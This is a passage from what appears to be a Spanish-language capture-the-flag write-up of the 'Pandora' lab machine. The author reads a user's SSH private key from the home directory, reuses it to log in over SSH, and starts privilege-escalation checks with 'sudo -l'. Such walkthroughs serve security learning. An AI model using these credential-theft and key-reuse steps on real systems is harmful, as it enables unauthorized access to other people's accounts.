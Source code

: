 ~~~bash
-rw------- 1 matt matt 2602 Oct 22 20:13 authorized_keys
-rw------- 1 matt matt 2602 Oct 22 20:12 id_rsa
-rw-r--r-- 1 matt matt  566 Oct 22 20:12 id_rsa.pub
matt@pandora:/home/matt/.ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
<SNIP>
zqKgzMAmcfUA0AAAAMbWF0dEBwYW5kb3JhAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
~~~
Copiando el id_rsa en mi maquina atacante y otorgandole permidos 600 se pudo ingresar por ssh.
~~~bash
nano id_rsa

chmod 600 id_rsa

ssh -i id_rsa matt@10.10.11.136
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 22 Oct 20:19:09 UTC 2025

  System load:           0.0
  Usage of /:            63.2% of 4.87GB
  Memory usage:          15%
  Swap usage:            0%
  Processes:             247
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.136
  IPv6 address for eth0: dead:beef::250:56ff:fe94:f116

  => /boot is using 91.8% of 219MB


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

matt@pandora:~$
~~~
Ahora si, comprobando que la nueva shell corre de forma correcta se hace el basico "sudo -l"
~~~bash
matt@pandora:~$ sudo -l
[sudo] password for matt: 
~~~